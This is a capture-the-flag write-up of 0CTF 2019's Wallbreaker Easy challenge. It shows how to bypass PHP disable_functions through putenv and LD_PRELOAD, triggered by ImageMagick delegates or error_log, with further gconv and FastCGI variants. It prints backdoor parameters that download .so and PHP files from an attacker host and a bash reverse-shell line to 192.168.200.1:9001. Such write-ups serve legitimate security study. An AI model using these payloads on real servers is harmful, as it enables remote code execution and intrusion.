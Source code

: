 ### References

- [@rmb122, 0ctf Wallbreaker Easy 详细 Writeup, 2019-03-28](https://xz.aliyun.com/t/4589)
- [@mdsnins, WallbreakerEasy.md, 2019-05-27](https://github.com/mdsnins/ctf-writeups/blob/master/2019/0ctf%202019/Wallbreaker%20Easy/WallbreakerEasy.md)

**Tag: ImageMagick bypass disbale_functions**

1.disable_functions:

```tex
pcntl_alarm,pcntl_fork,pcntl_waitpid,pcntl_wait,pcntl_wifexited,pcntl_wifstopped,pcntl_wifsignaled,pcntl_wifcontinued,pcntl_wexitstatus,pcntl_wtermsig,pcntl_wstopsig,pcntl_signal,pcntl_signal_get_handler,pcntl_signal_dispatch,pcntl_get_last_error,pcntl_strerror,pcntl_sigprocmask,pcntl_sigwaitinfo,pcntl_sigtimedwait,pcntl_exec,pcntl_getpriority,pcntl_setpriority,pcntl_async_signals,system,exec,shell_exec,popen,proc_open,passthru,symlink,link,syslog,imap_open,ld,mail
```

Both `mail()` and `imap_open()` which are famous disable_functions bypass methods are disabled. But we have `putenv()`, which make LD_PRELOAD injection available is not disabled.

In addition, functions for file read/write (`file_put_contents`, `file_get_contents`) are not blocked, we can upload our any files.

2.The description said `php-imagick` is installed, and we also can check the Imagick in phpinfo. Imagick version is 3.4.3RC2 (with ghostscript 9.26) which already patched GhostScript vulnerability.

As we know the `php-imagick` is just a PHP extension of the `ImageMagick`. In the `ImageMagick` [Supported Image Formats](https://imagemagick.org/script/formats.php), it supports reading over 100 major file formats and some requires Ghostscript to read.

```tex
EPI EPS EPS2 EPS3 EPSF EPSI EPT PDF PS PS2 PS3
```

But in latest version of ImageMagick, for security reasons, the default configuration file disables some formatting calls to Ghostscript:

```bash
$ cat /etc/ImageMagick-6/policy.xml | grep -i -A 10 "ghostscript"
  <!-- disable ghostscript format types -->
  <policy domain="coder" rights="none" pattern="PS" />
  <policy domain="coder" rights="none" pattern="PS2" />
  <policy domain="coder" rights="none" pattern="PS3" />
  <policy domain="coder" rights="none" pattern="EPS" />
  <policy domain="coder" rights="none" pattern="PDF" />
  <policy domain="coder" rights="none" pattern="XPS" />
</policymap>
```

So may be we can use the `.ept` file, use `convert` to get a EPT file and test:

```bash
$ sudo apt install imagemagick
$ convert image.png ept:test.ept
$ file test.ept
test.ept: DOS EPS Binary File Postscript starts at byte 30 length 64676 TIFF starts at byte 64706 length 21274
```

The file command shows that it is still an `eps` file. Idk what’s the connection between them, testing found that this file does not seem to work...

```bash
$ strace -f php -r "new Imagick('test.ept');" 2>&1 | grep -E "execve|fork|vfork"
execve("/usr/bin/php", ["php", "-r", "new Imagick('test.ept');"], 0x7ffeb255bc98 /* 60 vars */) = 0
```

And if we comment the policy of eps, we can see it call `gs`:

```bash
$ strace -f php -r "new Imagick('test.ept');" 2>&1 | grep -E "execve|fork|vfork"
execve("/usr/bin/php", ["php", "-r", "new Imagick('test.ept');"], 0x7fff3e464498 /* 60 vars */) = 0
[pid 22578] execve("/usr/local/sbin/gs", [...], 0x55ff0ee7ceb0 /* 60 vars */) = -1 ENOENT (No such file or directory)
[pid 22578] execve("/usr/local/bin/gs", [...], 0x55ff0ee7ceb0 /* 60 vars */) = -1 ENOENT (No such file or directory)
[pid 22578] execve("/usr/sbin/gs", [...], 0x55ff0ee7ceb0 /* 60 vars */) = -1 ENOENT (No such file or directory)
[pid 22578] execve("/usr/bin/gs", [...], 0x55ff0ee7ceb0 /* 60 vars */) = 0
```

3.In official ImageMagick github, the [QuickStart.txt](https://github.com/ImageMagick/ImageMagick/blob/7.0.11-11/QuickStart.txt#L62) has following contents:

```tex
ImageMagick depends on a number of external configuration files which include colors.xml, delegates.xml, and others. ImageMagick searches for configuration files in the following order, and loads them if found: ...
```

we can find in the file `delegates.xml` defines the rules for ImageMagick handling of various file types:

```tex
<delegatemap>
    ......
  <delegate decode="png" encode="webp" command="&quot;cwebp&quot; -quiet %Q &quot;%i&quot; -o &quot;%o&quot;"/>
</delegatemap>
```

When encoding and decoding these formats, ImageMagick will call some external commands. But most of these are actually not installed by default.

So if we can find the command that comes with the system, we can use LD_PRELOAD injection and execute arbitrary commands:

```bash
$ cat /etc/ImageMagick-6/delegates.xml | grep -E "command=\"/bin|command=\"sh"

  <delegate decode="jxr" command="/bin/mv &quot;%i&quot; &quot;%i.jxr&quot;; &quot;JxrDecApp&quot; -i &quot;%i.jxr&quot; -o &quot;%o.pnm&quot;; /bin/mv &quot;%i.jxr&quot; &quot;%i&quot;; /bin/mv &quot;%o.pnm&quot; &quot;%o&quot;"/>
  <delegate decode="bmp" encode="jxr" command="/bin/mv &quot;%i&quot; &quot;%i.bmp&quot;; &quot;JxrEncApp&quot; -i &quot;%i.bmp&quot; -o &quot;%o.jxr&quot;; /bin/mv &quot;%i.bmp&quot; &quot;%i&quot;; /bin/mv &quot;%o.jxr&quot; &quot;%o&quot;"/>
  <delegate decode="bmp" encode="wdp" command="/bin/mv &quot;%i&quot; &quot;%i.bmp&quot;; &quot;JxrEncApp&quot; -i &quot;%i.bmp&quot; -o &quot;%o.jxr&quot;; /bin/mv &quot;%i.bmp&quot; &quot;%i&quot;; /bin/mv &quot;%o.jxr&quot; &quot;%o&quot;"/>
  <delegate decode="wdp" command="/bin/mv &quot;%i&quot; &quot;%i.jxr&quot;; &quot;JxrDecApp&quot; -i &quot;%i.jxr&quot; -o &quot;%o.bmp&quot;; /bin/mv &quot;%i.jxr&quot; &quot;%i&quot;; /bin/mv &quot;%o.bmp&quot; &quot;%o&quot;"/>
```

The system command `/bin/mv` is called when converting format `bmp` to `jxr` or `wdp`. So the delegate can be invoked by simply converting the format. Let's test again :)

```bash
$ cat test.php                                             
<?php
$a = new Imagick();
$a->readImage('image.png');
$a->writeImage('test.wdp');

$ strace -f php test.php 2&>1
^C

$ cat 1 | grep -E "execve|fork|vfork"
execve("/usr/bin/php", ["php", "test.php"], 0x7ffdefcc96a0 /* 60 vars */execve("/usr/bin/php", ["php", "test.php"], 0x7ffdefcc96a0 /* 60 vars */) = 0
...
[pid 31904] execve("/bin/mv", ["/bin/mv", "/tmp/magick-31900zQd4OLFMRuti.jx"..., "/tmp/magick-31900zQd4OLFMRuti"], 0x558dec09d7d8 /* 60 vars */ <unfinished ...>
[pid 31904] execve("/bin/mv", ["/bin/mv", "/tmp/magick-31900zQd4OLFMRuti.jx"..., "/tmp/magick-31900zQd4OLFMRuti"], 0x558dec09d7d8 /* 60 vars */) = 0
```

Even if the image conversion fails because `JxrEncApp` does not exist, we can execute arbitrary command as long as a new process is started because of `/bin/mv`

4.**open_basedir: /var/www/html:/tmp/46c01c941bd10a9c3038752f7354f2e8**

Upload the `evil.so`, `evil.php` and whatever image with the backdoor:

```php
backdoor=file_put_contents("/tmp/46c01c941bd10a9c3038752f7354f2e8/evil.so", file_get_contents("http://192.168.200.1:8000/evil.so"));

backdoor=file_put_contents("/tmp/46c01c941bd10a9c3038752f7354f2e8/image.png", file_get_contents("http://192.168.200.1:8000/image.png"));

backdoor=file_put_contents("/var/www/html/evil.php", file_get_contents("http://192.168.200.1:8000/evil.php"));
```

then visit `evil.php` to get the reverse shell

![](https://i.imgur.com/O7sA9gi.png)

### Other way to exploit

Compare with the following:

```bash
$ strace -f php -r "mail('','','','');" 2>&1 | grep -E "execve|fork|vfork"
execve("/usr/bin/php", ["php", "-r", "mail('','','','');"], 0x7ffe4a449a58 /* 60 vars */) = 0
[pid 32548] execve("/bin/sh", ["sh", "-c", "/usr/sbin/sendmail -t -i "], 0x5560e3ed6eb0 /* 60 vars */ <unfinished ...>
[pid 32548] <... execve resumed>)       = 0
[pid 32549] execve("/usr/sbin/sendmail", ["/usr/sbin/sendmail", "-t", "-i"], 0x561c6dbcef98 /* 60 vars */) = -1 ENOENT (No such file or directory)

$ strace -f php -r "error_log('',1);" 2>&1 | grep -E "execve|fork|vfork"
execve("/usr/bin/php", ["php", "-r", "error_log('',1);"], 0x7fffecdffdf8 /* 9 vars */) = 0
[pid    67] execve("/bin/sh", ["sh", "-c", "/usr/sbin/sendmail -t -i "], 0x55b70a326e70 /* 9 vars */ <unfinished ...>
[pid    67] <... execve resumed> )      = 0
[pid    68] execve("/usr/sbin/sendmail", ["/usr/sbin/sendmail", "-t", "-i"], 0x55a53d4b0bd0 /* 9 vars */) = -1 ENOENT (No such file or directory)
```

So the `error_log` also available. Just use it to replace `mail` function:

```php
<?php
    putenv("cmd=bash -c 'exec bash -i &>/dev/tcp/192.168.200.1/9001 <&1'");
    putenv("LD_PRELOAD=/tmp/46c01c941bd10a9c3038752f7354f2e8/evil.so");
    error_log('', 1);
```

### After story

Check this out: https://gist.github.com/LoadLow/90b60bd5535d6c3927bb24d5f9955b80

```php
backdoor=file_put_contents("/tmp/46c01c941bd10a9c3038752f7354f2e8/payload.so", file_get_contents("http://192.168.200.1:8000/payload.so"));

backdoor=file_put_contents("/tmp/46c01c941bd10a9c3038752f7354f2e8/gconv-modules", file_get_contents("http://192.168.200.1:8000/gconv-modules"));

backdoor=file_put_contents("/var/www/html/poc.php", file_get_contents("http://192.168.200.1:8000/poc.php"));
```

![](https://i.imgur.com/OL7u7go.png)

### Other way again

In the [original repo](https://github.com/mo-xiaoxi/CTF_Web_docker/tree/master/TCTF2019/Wallbreaker_Easy) of the challenge, the author found an interesting parameter, `MAGICK_CODER_MODULE_PATH`, in the [document](https://www.imagemagick.org/script/resources.php#Environment%20Variables), it can permits the user to arbitrarily extend the image formats supported by ImageMagick by adding loadable coder modules from an preferred location rather than copying them into the ImageMagick installation directory.

![](https://i.imgur.com/yDK1Zzy.png)

### Final

In the 0CTF/TCTF 2019 Final#Wallbreaker (not very) Hard, The same environment is used but with `putenv` disabled :p

Refer: [writeup](https://balsn.tw/ctf_writeup/20190608-0ctf_tctf2019finals/#wallbreaker-(not-very)-hard), using the `extension` to bypass `disable_functions` to RCE. Just need to write the `extension_dir` and `extension` in `PHP_ADMIN_VALUE`, then we can load arbitrary extension.

Using [FuckFastcgi](https://github.com/w181496/FuckFastcgi/) to create FastCGI payload to overwrite settings.

```php
backdoor=file_put_contents("/tmp/46c01c941bd10a9c3038752f7354f2e8/hello.so", file_get_contents("http://192.168.200.1:8000/hello.so"));

backdoor=file_put_contents("/tmp/46c01c941bd10a9c3038752f7354f2e8/rshell.php", file_get_contents("http://192.168.200.1:8000/rshell.php"));

backdoor=file_put_contents("/var/www/html/poc.php", file_get_contents("http://192.168.200.1:8000/poc.php"));
```

visit `poc.php` will request `index.php`(file pointed to by `SCRIPT_FILENAME`) and prepend the `rshell.php`, then we can get the reverse shell.
